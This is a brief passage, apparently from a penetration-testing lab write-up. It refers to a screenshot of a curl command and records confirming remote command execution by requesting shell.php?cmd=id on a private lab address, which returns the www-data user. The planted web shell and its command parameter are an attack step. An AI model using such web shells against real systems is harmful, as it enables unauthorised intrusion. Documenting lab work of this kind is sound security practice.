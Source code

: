     *   ![IMAGE: Screenshot of the `curl` command execution (terminal output showing the HTML of `control.php` is fine). Your first screenshot from the RCE phase showing this command's output.](imgs/img_12.png)
*   **Verification of RCE:**
    *   Navigated to `http://192.168.13.129/shell.php?cmd=id` in the browser.
    *   **Output:** `uid=33(www-data) gid=33(www-data) groups=33(www-data)`
    *   This confirmed Remote Command Execution as the `www-data` user.